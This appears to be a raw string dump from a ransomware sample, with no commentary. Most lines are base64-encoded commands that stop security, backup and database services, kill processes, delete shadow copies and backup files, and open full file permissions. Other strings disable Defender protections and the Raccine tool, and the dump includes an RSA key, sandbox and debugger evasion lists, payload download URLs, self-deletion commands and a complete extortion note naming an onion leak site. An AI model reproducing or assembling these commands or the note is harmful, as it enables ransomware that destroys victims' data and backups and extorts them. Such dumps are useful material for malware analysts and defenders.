c3RvcCDigJxTb3Bob3MgQWdlbnTigJ0gL3k=
c3RvcCBFcmFzZXJTdmMxMTcxMCAveQ==
c3RvcCDigJxFbnRlcnByaXNlIENsaWVudCBTZXJ2aWNl4oCdIC95
c3RvcCDigJxTUUwgQmFja3VwcyAveQ==
c3RvcCBNc0R0c1NlcnZlcjEwMCAveQ==
c3RvcCBOZXRNc21xQWN0aXZhdG9yIC95
c3RvcCBNU0V4Y2hhbmdlSVMgL3k=
c3RvcCDigJxTb3Bob3MgQXV0b1VwZGF0ZSBTZXJ2aWNl4oCdIC95
c3RvcCBTYW1TcyAveQ==
c3RvcCBSZXBvcnRTZXJ2ZXIgL3k=
c3RvcCDigJxTUUxzYWZlIEJhY2t1cCBTZXJ2aWNl4oCdIC95
c3RvcCBNc0R0c1NlcnZlcjExMCAveQ==
c3RvcCBQT1AzU3ZjIC95
c3RvcCBNU0V4Y2hhbmdlTUdNVCAveQ==
c3RvcCDigJxTb3Bob3MgQ2xlYW4gU2VydmljZeKAnSAveQ==
c3RvcCBTTVRQU3ZjIC95
c3RvcCBSZXBvcnRTZXJ2ZXIkU1FMXzIwMDggL3k=
c3RvcCDigJxTUUxzYWZlIEZpbHRlciBTZXJ2aWNl4oCdIC95
c3RvcCBtc2Z0ZXNxbCRQUk9EIC95
c3RvcCBTc3RwU3ZjIC95
c3RvcCBNU0V4Y2hhbmdlTVRBIC95
c3RvcCDigJxTb3Bob3MgRGV2aWNlIENvbnRyb2wgU2VydmljZeKAnSAveQ==
c3RvcCBSZXBvcnRTZXJ2ZXIkU1lTVEVNX0JHQyAveQ==
c3RvcCDigJxTeW1hbnRlYyBTeXN0ZW0gUmVjb3ZlcnnigJ0gL3k=
c3RvcCBNU09MQVAkU1FMXzIwMDggL3k=
c3RvcCBVSTBEZXRlY3QgL3k=
c3RvcCBNU0V4Y2hhbmdlU0EgL3k=
c3RvcCDigJxTb3Bob3MgRmlsZSBTY2FubmVyIFNlcnZpY2XigJ0gL3k=
c3RvcCBSZXBvcnRTZXJ2ZXIkVFBTIC95
c3RvcCDigJxWZWVhbSBCYWNrdXAgQ2F0YWxvZyBEYXRhIFNlcnZpY2XigJ0gL3k=
c3RvcCBNU09MQVAkU1lTVEVNX0JHQyAveQ==
c3RvcCBXM1N2YyAveQ==
c3RvcCBNU0V4Y2hhbmdlU1JTIC95
c3RvcCDigJxTb3Bob3MgSGVhbHRoIFNlcnZpY2XigJ0gL3k=
c3RvcCBSZXBvcnRTZXJ2ZXIkVFBTQU1BIC95
c3RvcCDigJxab29seiAyIFNlcnZpY2XigJ0gL3k=
c3RvcCBNU09MQVAkVFBTIC95
c3RvcCDigJxhcGhpZG1vbml0b3JzZXJ2aWNl4oCdIC95
c3RvcCBtc2V4Y2hhbmdlYWR0b3BvbG9neSAveQ==
c3RvcCDigJxTb3Bob3MgTUNTIEFnZW504oCdIC95
c3RvcCBNU09MQVAkVFBTQU1BIC95
c3RvcCDigJxpbnRlbChyKSBwcm9zZXQgbW9uaXRvcmluZyBzZXJ2aWNl4oCdIC95
c3RvcCBtc2V4Y2hhbmdlaW1hcDQgL3k=
c3RvcCDigJxTb3Bob3MgTUNTIENsaWVudOKAnSAveQ==
c3RvcCBBUlNNIC95
c3RvcCBNU1NRTCRCS1VQRVhFQyAveQ==
c3RvcCB1bmlzdG9yZXN2Y18xYWY0MGEgL3k=
c3RvcCDigJxTb3Bob3MgTWVzc2FnZSBSb3V0ZXLigJ0gL3k=
c3RvcCBNU1NRTCRFQ1dEQjIgL3k=
c3RvcCBhdWRpb2VuZHBvaW50YnVpbGRlciAveQ==
c3RvcCDigJxTb3Bob3MgU2FmZXN0b3JlIFNlcnZpY2XigJ0gL3k=
c3RvcCBNU1NRTCRQUkFDVElDRU1HVCAveQ==
c3RvcCDigJxTb3Bob3MgU3lzdGVtIFByb3RlY3Rpb24gU2VydmljZeKAnSAveQ==
c3RvcCBCYWNrdXBFeGVjRGV2aWNlTWVkaWFTZXJ2aWNlIC95
c3RvcCBNU1NRTCRQUkFDVFRJQ0VCR0MgL3k=
c3RvcCDigJxTb3Bob3MgV2ViIENvbnRyb2wgU2VydmljZeKAnSAveQ==
c3RvcCBNU1NRTCRQUk9EIC95
c3RvcCBNU1NRTCRQUk9GWEVOR0FHRU1FTlQgL3k=
c3RvcCBBbnRpdmlydXMgL3k=
c3RvcCBNU1NRTCRTQlNNT05JVE9SSU5HIC8=
c3RvcCBNU1NRTCRTQlNNT05JVE9SSU5HIC95
c3RvcCBBVlAgL3k=
c3RvcCBNU1NRTCRTSEFSRVBPSU5UIC95
c3RvcCBEQ0FnZW50IC95
c3RvcCBiZWRiZyAveQ==
c3RvcCBNU1NRTCRTUUxfMjAwOCAveQ==
c3RvcCBFaHR0cFNydiAveQ==
c3RvcCBNTVMgL3k=
c3RvcCBNU1NRTCRTUUxFWFBSRVNTIC95
c3RvcCBla3JuIC95
c3RvcCBtb3p5cHJvYmFja3VwIC95
c3RvcCBNU1NRTCRTWVNURU1fQkdDIC95
c3RvcCBFUFNlY3VyaXR5U2VydmljZSAveQ==
c3RvcCBNU1NRTCRWRUVBTVNRTDIwMDhSMiAveQ==
c3RvcCBNU1NRTCRUUFMgL3k=
c3RvcCBFUFVwZGF0ZVNlcnZpY2UgL3k=
c3RvcCBudHJ0c2NhbiAveQ==
c3RvcCBNU1NRTCRUUFNBTUEgL3k=
c3RvcCBFc2dTaEtlcm5lbCAveQ==
c3RvcCBFU0hBU1JWIC95
c3RvcCBTRFJTVkMgL3k=
c3RvcCBNU1NRTCRWRUVBTVNRTDIwMTIgL3k=
c3RvcCBGQV9TY2hlZHVsZXIgL3k=
c3RvcCBTUUxBZ2VudCRWRUVBTVNRTDIwMDhSMiAveQ==
c3RvcCBNU1NRTEZETGF1bmNoZXIkUFJPRlhFTkdBR0VNRU5UIC95
c3RvcCBLQVZGUyAveQ==
c3RvcCBTUUxXcml0ZXIgL3k=
c3RvcCBNU1NRTEZETGF1bmNoZXIkU0JTTU9OSVRPUklORyAveQ==
c3RvcCBLQVZGU0dUIC95
c3RvcCBWZWVhbUJhY2t1cFN2YyAveQ==
c3RvcCBNU1NRTEZETGF1bmNoZXIkU0hBUkVQT0lOVCAveQ==
c3RvcCBrYXZmc3NscCAveQ==
c3RvcCBWZWVhbUJyb2tlclN2YyAveQ==
c3RvcCBNU1NRTEZETGF1bmNoZXIkU1FMXzIwMDggL3k=
c3RvcCBrbG5hZ2VudCAveQ==
c3RvcCBWZWVhbUNhdGFsb2dTdmMgL3k=
c3RvcCBNU1NRTEZETGF1bmNoZXIkU1lTVEVNX0JHQyAveQ==
c3RvcCBtYWNtbnN2YyAveQ==
c3RvcCBWZWVhbUNsb3VkU3ZjIC95
c3RvcCBNU1NRTEZETGF1bmNoZXIkVFBTIC95
c3RvcCBtYXN2YyAveQ==
c3RvcCBNU1NRTEZETGF1bmNoZXIkVFBTQU1BIC95
c3RvcCBNQkFNU2VydmljZSAveQ==
c3RvcCBWZWVhbURlcGxveVN2YyAveQ==
c3RvcCBNU1NRTFNFUlZFUiAveQ==
c3RvcCBNQkVuZHBvaW50QWdlbnQgL3k=
c3RvcCBWZWVhbUVudGVycHJpc2VNYW5hZ2VyU3ZjIC95
c3RvcCBNU1NRTFNlcnZlckFESGVscGVyIC95
c3RvcCBNY0FmZWVFbmdpbmVTZXJ2aWNlIC95
c3RvcCBWZWVhbUh2SW50ZWdyYXRpb25TdmMgL3k=
c3RvcCBNU1NRTFNlcnZlckFESGVscGVyMTAwIC95
c3RvcCBNY0FmZWVGcmFtZXdvcmsgL3k=
c3RvcCBWZWVhbU1vdW50U3ZjIC95
c3RvcCBNU1NRTFNlcnZlck9MQVBTZXJ2aWNlIC95
c3RvcCBNY0FmZWVGcmFtZXdvcmtNY0FmZWVGcmFtZXdvcmsgL3k=
c3RvcCBNeVNRTDU3IC95
c3RvcCBNY1NoaWVsZCAveQ==
c3RvcCBWZWVhbVJFU1RTdmMgL3k=
c3RvcCBNeVNRTDgwIC95
c3RvcCBNY1Rhc2tNYW5hZ2VyIC95
c3RvcCBPcmFjbGVDbGllbnRDYWNoZTgwIC95
c3RvcCBtZmVmaXJlIC95
c3RvcCB3YmVuZ2luZSAveQ==
c3RvcCBtZmVtbXMgL3k=
c3RvcCBSRVN2YyAveQ==
c3RvcCBtZmV2dHAgL3k=
c3RvcCBzbXNfc2l0ZV9zcWxfYmFja3VwIC95
c3RvcCBTUUxBZ2VudCRCS1VQRVhFQyAveQ==
c3RvcCBNU1NRTCRTT1BIT1MgL3k=
c3RvcCBTUUxBZ2VudCRDSVRSSVhfTUVUQUZSQU1FIC95
c3RvcCBzYWNzdnIgL3k=
c3RvcCBTUUxBZ2VudCRDWERCIC95
c3RvcCBTQVZBZG1pblNlcnZpY2UgL3k=
c3RvcCBTUUxBZ2VudCRFQ1dEQjIgL3k=
c3RvcCBTQVZTZXJ2aWNlIC95
c3RvcCBTUUxBZ2VudCRQUkFDVFRJQ0VCR0MgL3k=
c3RvcCBTZXBNYXN0ZXJTZXJ2aWNlIC95
c3RvcCBTUUxBZ2VudCRQUkFDVFRJQ0VNR1QgL3k=
c3RvcCBTaE1vbml0b3IgL3k=
c3RvcCBTUUxBZ2VudCRQUk9EIC95
c3RvcCBTbWNpbnN0IC95
c3RvcCBTUUxBZ2VudCRQUk9GWEVOR0FHRU1FTlQgL3k=
c3RvcCBTbWNTZXJ2aWNlIC95
c3RvcCBTUUxBZ2VudCRTQlNNT05JVE9SSU5HIC95
c3RvcCBTbnRwU2VydmljZSAveQ==
c3RvcCBTUUxBZ2VudCRTSEFSRVBPSU5UIC95
c3RvcCBzb3Bob3NzcHMgL3k=
c3RvcCBTUUxBZ2VudCRTUUxfMjAwOCAveQ==
c3RvcCBTUUxBZ2VudCRTT1BIT1MgL3k=
c3RvcCBTUUxBZ2VudCRTUUxFWFBSRVNTIC95
c3RvcCBzdmNHZW5lcmljSG9zdCAveQ==
c3RvcCBTUUxBZ2VudCRTWVNURU1fQkdDIC95
c3RvcCBzd2lfZmlsdGVyIC95
c3RvcCBTUUxBZ2VudCRUUFMgL3k=
c3RvcCBzd2lfc2VydmljZSAveQ==
c3RvcCBTUUxBZ2VudCRUUFNBTUEgL3k=
c3RvcCBzd2lfdXBkYXRlIC95
c3RvcCBzd2lfdXBkYXRlXzY0IC95
c3RvcCBTUUxBZ2VudCRWRUVBTVNRTDIwMTIgL3k=
c3RvcCBUbUNDU0YgL3k=
c3RvcCBTUUxCcm93c2VyIC95
c3RvcCB0bWxpc3RlbiAveQ==
c3RvcCBTUUxTYWZlT0xSU2VydmljZSAveQ==
c3RvcCBUcnVlS2V5IC95
c3RvcCBTUUxTRVJWRVJBR0VOVCAveQ==
c3RvcCBUcnVlS2V5U2NoZWR1bGVyIC95
c3RvcCBTUUxURUxFTUVUUlkgL3k=
c3RvcCBUcnVlS2V5U2VydmljZUhlbHBlciAveQ==
c3RvcCBTUUxURUxFTUVUUlkkRUNXREIyIC95
c3RvcCBXUlNWQyAveQ==
c3RvcCBtc3NxbCR2aW1fc3FsZXhwIC95
c3RvcCB2YXBpZW5kcG9pbnQgL3k=
Y29uZmlnIERuc2NhY2hlIHN0YXJ0PSBhdXRv
Y29uZmlnIEZEUmVzUHViIHN0YXJ0PSBhdXRv
Y29uZmlnIFNTRFBTUlYgc3RhcnQ9IGF1dG8=
Y29uZmlnIHVwbnBob3N0IHN0YXJ0PSBhdXRv
Y29uZmlnIFNRTFRFTEVNRVRSWSBzdGFydD0gZGlzYWJsZWQ=
Y29uZmlnIFNRTFRFTEVNRVRSWSRFQ1dEQjIgc3RhcnQ9IGRpc2FibGVk
Y29uZmlnIFNRTFdyaXRlciBzdGFydD0gZGlzYWJsZWQ=
Y29uZmlnIFNzdHBTdmMgc3RhcnQ9IGRpc2FibGVk
L0lNIG1zcHViLmV4ZSAvRg==
L0lNIG15ZGVza3RvcHFvcy5leGUgL0Y=
L0lNIG15ZGVza3RvcHNlcnZpY2UuZXhlIC9G
L0lNIG15c3FsZC5leGUgL0Y=
L0lNIHNxYmNvcmVzZXJ2aWNlLmV4ZSAvRg==
L0lNIGZpcmVmb3hjb25maWcuZXhlIC9G
L0lNIGFnbnRzdmMuZXhlIC9G
L0lNIHRoZWJhdC5leGUgL0Y=
L0lNIHN0ZWFtLmV4ZSAvRg==
L0lNIGVuY3N2Yy5leGUgL0Y=
L0lNIGV4Y2VsLmV4ZSAvRg==
L0lNIENOVEFvU01nci5leGUgL0Y=
L0lNIHNxbHdyaXRlci5leGUgL0Y=
L0lNIHRiaXJkY29uZmlnLmV4ZSAvRg==
L0lNIGRiZW5nNTAuZXhlIC9G
L0lNIHRoZWJhdDY0LmV4ZSAvRg==
L0lNIG9jb21tLmV4ZSAvRg==
L0lNIGluZm9wYXRoLmV4ZSAvRg==
L0lNIG1iYW10cmF5LmV4ZSAvRg==
L0lNIHpvb2x6LmV4ZSAvRg==
SU0gdGh1bmRlcmJpcmQuZXhlIC9G
L0lNIGRic25tcC5leGUgL0Y=
L0lNIHhmc3N2Y2Nvbi5leGUgL0Y=
L0lNIE50cnRzY2FuLmV4ZSAvRg==
L0lNIGlzcWxwbHVzc3ZjLmV4ZSAvRg==
L0lNIG9uZW5vdGUuZXhlIC9G
L0lNIFBjY05UTW9uLmV4ZSAvRg==
L0lNIG1zYWNjZXNzLmV4ZSAvRg==
L0lNIG91dGxvb2suZXhlIC9G
L0lNIHRtbGlzdGVuLmV4ZSAvRg==
L0lNIG1zZnRlc3FsLmV4ZSAvRg==
L0lNIHBvd2VycG50LmV4ZSAvRg==
L0lNIHZpc2lvLmV4ZSAvRg==
L0lNIHdpbndvcmQuZXhlIC9G
L0lNIG15c3FsZC1udC5leGUgL0Y=
L0lNIHdvcmRwYWQuZXhlIC9G
L0lNIG15c3FsZC1vcHQuZXhlIC9G
L0lNIG9jYXV0b3VwZHMuZXhlIC9G
L0lNIG9jc3NkLmV4ZSAvRg==
L0lNIG9yYWNsZS5leGUgL0Y=
L0lNIHNxbGFnZW50LmV4ZSAvRg==
L0lNIHNxbGJyb3dzZXIuZXhlIC9G
L0lNIHNxbHNlcnZyLmV4ZSAvRg==
L0lNIHN5bmN0aW1lLmV4ZSAvRg==
=QXZpVXcvACbsF2LgM3dvRWYoNFIlRXZsVGR
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1jOiAvb249YzogL21heHNpemU9NDAxTUI=
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1jOiAvb249YzogL21heHNpemU9dW5ib3VuZGVk
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1kOiAvb249ZDogL21heHNpemU9NDAxTUI=
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1kOiAvb249ZDogL21heHNpemU9dW5ib3VuZGVk
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1lOiAvb249ZTogL21heHNpemU9NDAxTUI=
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1lOiAvb249ZTogL21heHNpemU9dW5ib3VuZGVk
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1mOiAvb249ZjogL21heHNpemU9NDAxTUI=
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1mOiAvb249ZjogL21heHNpemU9dW5ib3VuZGVk
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1nOiAvb249ZzogL21heHNpemU9NDAxTUI=
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1nOiAvb249ZzogL21heHNpemU9dW5ib3VuZGVk
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1oOiAvb249aDogL21heHNpemU9NDAxTUI=
cmVzaXplIHNoYWRvd3N0b3JhZ2UgL2Zvcj1oOiAvb249aDogL21heHNpemU9dW5ib3VuZGVk
R2V0LVdtaU9iamVjdCBXaW4zMl9TaGFkb3djb3B5IHwgRm9yRWFjaC1PYmplY3QgeyAkX0RlbGV0ZSgpOyB9
L3MgL2YgL3EgYzpcKi5WSEQgYzpcKi5iYWMgYzpcKi5iYWsgYzpcKi53YmNhdCBjOlwqLmJrZiBjOlxCYWNrdXAqLiogYzpcYmFja3VwKi4qIGM6XCouc2V0IGM6XCoud2luIGM6XCouZHNr
L3MgL2YgL3EgZDpcKi5WSEQgZDpcKi5iYWMgZDpcKi5iYWsgZDpcKi53YmNhdCBkOlwqLmJrZiBkOlxCYWNrdXAqLiogZDpcYmFja3VwKi4qIGQ6XCouc2V0IGQ6XCoud2luIGQ6XCouZHNr
L3MgL2YgL3EgZTpcKi5WSEQgZTpcKi5iYWMgZTpcKi5iYWsgZTpcKi53YmNhdCBlOlwqLmJrZiBlOlxCYWNrdXAqLiogZTpcYmFja3VwKi4qIGU6XCouc2V0IGU6XCoud2luIGU6XCouZHNr
L3MgL2YgL3EgZjpcKi5WSEQgZjpcKi5iYWMgZjpcKi5iYWsgZjpcKi53YmNhdCBmOlwqLmJrZiBmOlxCYWNrdXAqLiogZjpcYmFja3VwKi4qIGY6XCouc2V0IGY6XCoud2luIGY6XCouZHNr
L3MgL2YgL3EgZzpcKi5WSEQgZzpcKi5iYWMgZzpcKi5iYWsgZzpcKi53YmNhdCBnOlwqLmJrZiBnOlxCYWNrdXAqLiogZzpcYmFja3VwKi4qIGc6XCouc2V0IGc6XCoud2luIGc6XCouZHNr
L3MgL2YgL3EgaDpcKi5WSEQgaDpcKi5iYWMgaDpcKi5iYWsgaDpcKi53YmNhdCBoOlwqLmJrZiBoOlxCYWNrdXAqLiogaDpcYmFja3VwKi4qIGg6XCouc2V0IGg6XCoud2luIGg6XCouZHNr
IkM6KiIgL2dyYW50IEV2ZXJ5b25lOkYgL1QgL0MgL1E=
IkQ6KiIgL2dyYW50IEV2ZXJ5b25lOkYgL1QgL0MgL1E=
Ilo6KiIgL2dyYW50IEV2ZXJ5b25lOkYgL1QgL0MgL1E=
1
LOGONISOFF
reload1.lnk
VGhhbm9z
Debug_Log.txt
UserName=
_MachineName=
_
.txt
.[ID-
]
"db","dbf","accdb","dbx","mdb","mdf","epf","ndf","ldf","1cd","sdf","nsf","fp7","cat","log"
*.*
program files
windows
programdata
$
Setting write access permission:
 - File Size:
 bytes
----------------------------------------------------------------------------
aWNhY2xzLmV4ZQ==
IC9ncmFudCA=
OkYgL1QgL0MgL1E=
 - Error while checking for user write access permission:
 - Error while reading if filesize is zero:
 - Error while renaming to crypted extension:
dGFza2xpc3Q=
L3YgL2ZvIGNzdg==
L2YgL3BpZCA=
UTF-8<------------>xp
Select * from Win32_ComputerSystem
Manufacturer
microsoft corporation
Model
VIRTUAL
vmware
VirtualBox
SbieDll.dll
wallpaper.bmp
U29mdHdhcmVcTWljcm9zb2Z0XFdpbmRvd3NcQ3VycmVudFZlcnNpb25cUG9saWNpZXNcU3lzdGVt
RGlzYWJsZVRhc2tNZ3I=
win32_processor
processorID
C
win32_logicaldisk.deviceid="
:"
VolumeSerialNumber
STOR
Global\
Data are empty
data
Maximum data length is {0}
Key size is not valid
keySize
Key is null or empty
publicKeyXml
!
NDA5NiE8UlNBS2V5VmFsdWU+PE1vZHVsdXM+aWIvYm0yWU1HOEFnd2xXSVdTYjhZbE1hUVN3TlVqaUd6SUMxNEpMYm8rV3JkaVIzUUNRQ1J5UU0wNWEyb001aVdMTmlIRTdPS212TmFmZTJ3VEk5cHpnSkpraGgzc2hiYnRKSlpMdGxuM05IdVVhNytXWndLeWVHSDh6N3Y5TGJnOFhnTVpKbGFIUExaOFdSdE9ySXE4cmNOWUVzczlZbGFUWDFYd3duVEZPbmZzcmZYNjJjZWxXeXdDT0FRU081TytKbHRsWkxTNDFFYitoWGwrZ3UwaTFyQzZMWGdNcU9oMHhkRElKSW10Qm8vT1E0TVZydjBLbkliY3F4allHbnRuY1Iyd3piNVIwVU5SZzdkUGgzQm1QL2VNMDhlRG5zUEduclN1b3ZySzZxVHgyOHdiU1lUbUkxeFFNMTlFay9KcEpxL2M3YXNxVyt6SjR0MnpYODZURkFBTDhsdStKNFhaYmk3emNNdEdHdk4xMDRFT1pGZmZkYkxKUDIvRkNuT1ZaNUc1WlpCNkNZMm40em9SNDZBMzZxZFhBaFRMTUxVRzFwQThsWEZ6NnZGQjd2Yk1QdlRxTTlSOXV3VUloUmRDNWd5ZHl4akZXK3oyU29Tb2JkWk83ZkhleHNkd2FhYnp5QmhSSlFOUWNhYjk1emlxY01ONEl6OXdTYUtQRTUzckNvdmN5SlVEUW9EUlZkZHphRkUwQ3RPQStUU3lLK3N0SHV1eUhWM1VuSUo0VDZOU04wL3VGYnMyaW5RaVFlbkFDaEF6MFdWQzByTXNvNlpJVG8wTUordFgwRkFVWWQ3b1pqSlMvams5L2xoTExWMXdWMlZhN0dwTi9Tc1ZMZk1obzA4NXRNWTJJYzBaY0o2Tm9CaXd0YjZEOGRwdjBWenRndFZUeWpCdGs9PC9Nb2R1bHVzPjxFeHBvbmVudD5BUUFCPC9FeHBvbmVudD48L1JTQUtleVZhbHVlPg==
IPInfo: Error Parsing 'arp -a' results
arp
-a
IPInfo: Error Retrieving 'arp -a' Results
value
rgbKey
Invalid key size; it must be 128 or 256 bits.
rgbIV
Invalid IV size; it must be 8 bytes.
inputBuffer
inputOffset
inputCount
outputBuffer
outputOffset
expand 32-byte k
expand 16-byte k
 - Error while reading from file:
LQ==
Kw==
 - Error while partial writing to file:
aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2QzNWhhL1Byb2Nlc3NIaWRlL21hc3Rlci9iaW5zL1Byb2Nlc3NIaWRlNjQuZXhl
aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2QzNWhhL1Byb2Nlc3NIaWRlL21hc3Rlci9iaW5zL1Byb2Nlc3NIaWRlMzIuZXhl
.
.exe
 *32
Y29uaG9zdC5leGU=
bmV0MS5leGU=
QVJQLkVYRQ==
Y21kLmV4ZQ==
TaskManagerWindow
Administrador de tareas
#32770
Task Manager
SysListView32
Processes
Procesos
kernel32.dll
GetProcessId
GetCurrentProcessId
ntdll.dll
NtReadVirtualMemory
NtOpenProcess
NtQuerySystemInformation
Q3JlYXRlU2hvcnRjdXQ=
Error while creating ShortCut:
V1NjcmlwdC5TaGVsbA==
aHR0cCBhbmFseXplciBzdGFuZC1hbG9uZQ==
ZmlkZGxlcg==
ZWZmZXRlY2ggaHR0cCBzbmlmZmVy
ZmlyZXNoZWVw
SUVXYXRjaCBQcm9mZXNzaW9uYWw=
ZHVtcGNhcA==
d2lyZXNoYXJr
d2lyZXNoYXJrIHBvcnRhYmxl
c3lzaW50ZXJuYWxzIHRjcHZpZXc=
TmV0d29ya01pbmVy
TmV0d29ya1RyYWZmaWNWaWV3
SFRUUE5ldHdvcmtTbmlmZmVy
dGNwZHVtcA==
aW50ZXJjZXB0ZXI=
SW50ZXJjZXB0ZXItTkc=
b2xseWRiZw==
eDY0ZGJn
eDMyZGJn
ZG5zcHk=
ZG5zcHkteDg2
ZGU0ZG90
aWxzcHk=
ZG90cGVlaw==
ZG90cGVlazY0
aWRhNjQ=
UkRHIFBhY2tlciBEZXRlY3Rvcg==
Q0ZGIEV4cGxvcmVy
UEVpRA==
cHJvdGVjdGlvbl9pZA==
TG9yZFBF
cGUtc2lldmU=
TWVnYUR1bXBlcg==
VW5Db25mdXNlckV4
VW5pdmVyc2FsX0ZpeGVy
Tm9GdXNlckV4
QmxvY2tz
 - Error creating filestream for block process or read-write:
chrome
opera
msedge
iexplore
firefox
explorer
wininit
winlogon
SearchApp
SearchIndexer
SearchUI
:Zone.Identifier
Drive Mounted: {0}
Error while mounting network drives:
ERROR=
ADMIN$
print$
User
:\
Share Added: {0}
Error while enumerating shares:
```

2:

```
Taskmgr
taskmgr
ProcessHacker
procexp
procexp64
Set-MpPreference -EnableControlledFolderAccess Disabled
/c rd /s /q %SYSTEMDRIVE%\\$Recycle.bin
Client IP: 
[http://icanhazip.com](http://icanhazip.com)Date of encryption: 
Client Unique Identifier Key:
-------=== Your network has been infected! ===-------***DO NOT DELETE THIS FILE UNTIL ALL YOUR DATA HAVE BEEN RECOVERED***All your documents, photos, databases and other important files have been encrypted . 
You are not able to decrypt it by yourself. But don't worry, we can help you to restore all your files! 
The only way to restore your files is to buy our special software. Only we can give you this software and only we can restore your files!We have also downloaded a lot of private data from your network. 
If you do not contact as in a 3 days we will post information about your breach on our public news webs [http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion](http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion) and after 7 days the whole downloaded info. 
You can get more information on our page, which is located in a Tor hidden network.How to get to our page 
-------------------------------------------------------------------------------- 
1.Download Tor browser - [https://www.torproject.org/](https://www.torproject.org/)2.Install Tor browser3.Open link in Tor browser -[http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion](http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion)4.Use login:Chaddadgroup password: Chaddadgroup5.Follow the instructions on this page* DO NOT TRY TO RECOVER FILES YOURSELF!*
* DO NOT MODIFY ENCRYPTED FILES! 
* * * OTHERWISE, YOU MAY LOSE ALL YOUR FILES FOREVER! * * *Key Identifier: 
Number of files that were processed is: 
PC Hardware ID:<!-- #######  YAY, I AM THE SOURCE EDITOR! #########-->
<p style="text-align: center;"><span style="background-color: #000000; color: #ff0000;"><strong>-------=== Your network has been infected! ===-------</strong></span></p>
<p style="text-align: center;"><br /><br /><strong>***DO NOT DELETE THIS FILE UNTIL ALL YOUR DATA HAVE BEEN RECOVERED***</strong><br /><br />All your documents, photos, databases and other important files have been encrypted . <br />You are not able to decrypt it by yourself. But don't worry, we can help you to restore all your files! <br />The only way to restore your files is to buy our special software. Only we can give you this software and only we can restore your files!</p>
<p>We have also downloaded a lot of private data from your network. <br />If you do not contact as in a 3 days we will post information about your breach on our public news webs <strong>[http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion](http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion)</strong> and after 7 days the whole downloaded info. <br />You can get more information on our page, which is located in a Tor hidden network. <br /><br /><br /><strong>How to get to our page </strong><br /><strong>--------------------------------------------------------------------------------</strong> <br />1.Download Tor browser - <a href="[https://www.torproject.org/](https://www.torproject.org/)">[https://www.torproject.org/](https://www.torproject.org/)</a></p>
<p>2.Install Tor browser</p>
<p>3.Open link in Tor browser -<a href="[http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion](http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion)">[http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion](http://ft4zr2jzlqoyob7yg4fcpwyt37hox3ajajqnfkdvbfrkjioyunmqnpad.onion)</a></p>
<p>4.Use login:<span style="text-decoration: underline;"><strong>Chaddadgroup</strong></span> password: <span style="text-decoration: underline;"><strong>Chaddadgroup&nbsp;</strong></span></p>
<p>5.Follow the instructions on this page <br /><br /></p>
<p style="text-align: center;"><br /><strong>* DO NOT TRY TO RECOVER FILES YOURSELF!*</strong><br /><strong>* DO NOT MODIFY ENCRYPTED FILES! </strong><br /><strong>* * * OTHERWISE, YOU MAY LOSE ALL YOUR FILES FOREVER! * * *</strong></p>
<p>&nbsp;</p><p style="text-align: center;">Key Identifier: 
</p>
<p style="text-align: center;">
Q!4Possible affected files: 
notepad.exe
mshta.exe
Q
This program requires Microsoft .NET Framework v. 4.82 or superior to run properly
Information...
Builder_Log
LocalAccountTokenFilterPolicy
EnableLinkedConnections
powershell.exeSOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
vssadmin.exe
wmic.exe
wbadmin.exe
bcdedit.exe
diskshadow.exe
net.exe
Raccine
SOFTWARE
taskkill
/F /IM RaccineSettings.exe
reg
delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Raccine Tray" /F
delete HKCU\Software\Raccine /F
schtasks
/DELETE /TN "Raccine Rules Updater" /F
GotAllDone
SYSTEM\CurrentControlSet\Control\FileSystem
LongPathsEnabled
netsh
advfirewall firewall set rule group=\"Network Discovery\" new enable=Yes
advfirewall firewall set rule group=\"File and Printer Sharing\" new enable=Yes
/C ping 127.0.0.7 -n 3 > Nul & fsutil file setZeroData offset=0 length=524288 “%s” & Del /f /q “%s”
/C choice /C Y /N /D Y /T 3 & Del
sc.exe
taskkill.exe
del.exe
lsass.exe
svchst.exe
crcss.exe
chrome32.exe
firefox.exe
calc.exe
mysqld.exe
dllhst.exe
opera32.exe
memop.exe
spoolcv.exe
ctfmom.exe
SkypeApp.exe
start Dnscache /y
start FDResPub /y
start SSDPSRV /y
start upnphost /y
stop avpsus /y
stop McAfeeDLPAgentService /y
stop mfewc /y
stop BMR Boot Service /y
stop NetBackup BMR MTFTP Service /y
stop DefWatch /y
stop ccEvtMgr /y
stop ccSetMgr /y
stop SavRoam /y
stop RTVscan /y
stop QBFCService /y
stop QBIDPService /y
stop Intuit.QuickBooks.FCS /y
stop QBCFMonitorService /y
stop YooBackup /y
stop YooIT /y
stop zhudongfangyu /y
stop stc_raw_agent /y
stop VSNAPVSS /y
stop VeeamTransportSvc /y
stop VeeamDeploymentService /y
stop VeeamNFSSvc /y
stop veeam /y
stop PDVFSService /y
stop BackupExecVSSProvider /y
